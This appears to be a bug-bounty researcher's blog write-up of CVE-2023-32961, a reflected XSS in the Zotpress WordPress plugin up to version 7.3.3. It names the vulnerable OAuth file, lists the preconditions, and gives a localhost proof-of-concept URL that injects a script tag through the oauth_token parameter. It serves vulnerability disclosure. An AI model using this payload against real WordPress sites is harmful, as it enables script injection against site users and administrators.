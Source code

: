```yaml
---
layout: post
date: 2023-05-16
title: "CVE-2023-32961 Analysis
tags: [webhacking, ]
categories: [bugbounty, WordPress, ]
---
```



## Component details


---


### Component name


Zotpress


### Vulnerable version


≤ 7.3.3


### Component slug


zotpress


### Component link


[https://wordpress.org/plugins/zotpress/](https://wordpress.org/plugins/zotpress/)


## Pre-requisite


---


Unauthenticated


## Vulenerability details


---


### Short description


`get_request_token` function in `zotpress/lib/admin/admin.accounts.oauth.php` is vulnerable to a XSS attack.


### How to reproduce (PoC)

1. Install the oauth php extension to trigger the vulnerability. (This is Zotpress's optional)
2. Login to [zotero.org](http://zotero.org/)
3. Conditions must be met for the `get_request_token` function to execute. (first time only)
Send a payload like this: `http://localhost:8080/wp-content/plugins/zotpress/lib/admin/admin.accounts.oauth.php?return_uri=http://localhost:8080&oauth_token=1`
4. Send a below payload
`http://localhost:8080/wp-content/plugins/zotpress/lib/admin/admin.accounts.oauth.php?return_uri=http://localhost:8080&oauth_token="><script>alert(1)</script>`

### Additional information

- You need a [zotero.org](http://zotero.org/) account.
- You need to set the oauthState value to 1 to trigger it. If the above payload doesn't work, you need to find a way to set oauthState to 1.
	- conditional expression :

		```php
		$_GET['oauth_token'] != $state['request_token_info']['oauth_token']
		```

- Easy to install php oauth extension:
	- One Line Command :

		```shell
		sudo su; apt-get update; apt-get -y install gcc make autoconf libc-dev pkg-config libpcre3-dev; pecl install oauth; bash -c "echo extension=oauth.so > $PHP_INI_DIR/conf.d/oauth.ini"; service apache2 restart
		```

- Tested in wordpress:latest Docker image.

### PoC Video


{% include embed/youtube.html id='5kZ7bNbs_-Q' %}


## References


---


[CVE-2023-32961](https://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2023-32961)

